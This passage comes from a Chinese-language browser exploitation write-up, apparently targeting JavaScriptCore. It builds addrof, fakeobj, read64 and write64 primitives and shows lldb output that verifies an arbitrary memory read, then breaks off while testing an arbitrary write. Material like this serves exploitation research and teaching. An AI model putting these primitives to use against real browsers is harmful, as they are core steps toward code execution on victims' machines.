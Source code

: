 ```
    `}`,
    fakeobj : function (addr)`{`
        unboxed[0] = i2f(addr);
        return boxed[0];
    `}`,
    read64 : function (addr)`{`
        hax[1] = i2f(addr+0x10);
        return stage2.addrof(controller.a);
    `}`,
`}`;
```

我顺便写了负责任意读的方法`read64()`，可以试试效果：

```
&gt;&gt;&gt; stage2.read64(stage2.addrof(hax))
74345707800101380
&gt;&gt;&gt; hex(74345707800101380)
0x108210700000200
&gt;&gt;&gt; stage2.read64(stage2.addrof(hax)+8)
4440416976
&gt;&gt;&gt; hex(4440416976)
0x108ab62d0
&gt;&gt;&gt; describe(hax)
Object: 0x108ac83b0 with butterfly 0x108ab62d0 (Structure 0x108a4a3e0:[Array, `{`a:100, p188:101`}`, ArrayWithDouble, Proto:0x108ac80a0]), StructureID: 512

(lldb) x/2gx 0x108ac83b0
0x108ac83b0: 0x0108210700000200 0x0000000108ab62d0
(lldb)
```

这就很稳了，但其实有时候读double还不是很准，我猜测是因为精度问题，但其实问题不大。现在尝试构造一个任意写的方法：

```
write64 : function (addr, content)`{`
        hax[1] = i2f(addr+0x10);
        controller.a = this.fakeobj(content);
`}`
```

试试效果：

```
var stage2 = `{`
    addrof : function (obj)`{`
        boxed[0] = obj;
        return f2i(unboxed[0]);
    `}`,
    fakeobj : function (addr)`{`
        unboxed[0] = i2f(addr);
        return boxed[0];
    `}`,
    read64 : function (addr)`{`
        hax[1] = i2f(addr+0x10);
        return this.addrof(controller.a);
    `}`,
    write64 : function (addr, content)`{`
        hax[1] = i2f(addr+0x10);
        controller.a = this.fakeobj(content);
    `}`,
    test : function()`{`

        testObj = `{``}`;
        testObj[0] = 1.1;
        obj_addr = this.addrof(testObj)
        value = 0x1122334455667788;
```